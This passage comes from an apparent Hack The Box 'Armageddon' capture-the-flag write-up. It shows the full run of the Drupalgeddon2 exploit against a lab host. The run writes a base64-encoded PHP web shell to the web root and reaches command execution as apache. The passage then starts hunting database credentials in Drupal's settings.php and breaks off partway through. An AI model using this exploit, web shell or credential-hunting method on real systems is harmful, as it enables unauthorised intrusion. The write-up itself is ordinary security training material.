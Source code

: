 A cursory Google search of the version leads you to a PoC RCE exploit, Drupalgeddon2. Running it grants you a basic PHP shell:

```shell
┌──(kali@kali)-[~/htb/armageddon/drupalexploit]
└─$ ./drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VJNRMOSG
[+] Result : VJNRMOSG
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : &1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> whoami
apache
armageddon.htb>>
```

# Privilege Escalation

In doing some manual enumeration, I discovered that MySQL was running on the host. From previous experience I know that DB credentials sometimes exist in Drupal configuration files. I enumerated the web server and came across `sites/default/settings.php`, which included the following credentials:

```php
$databases = array (                                                                                                                                                                               
            'default' =>                                                                                                                                                                                     
            array (                                                                                                                                                                                          
              'default' =>                                                                                                                                                                                   
              array (                                                                                                                                                                                        
                'database' => 'drupal',                                                                                                                                                                      
```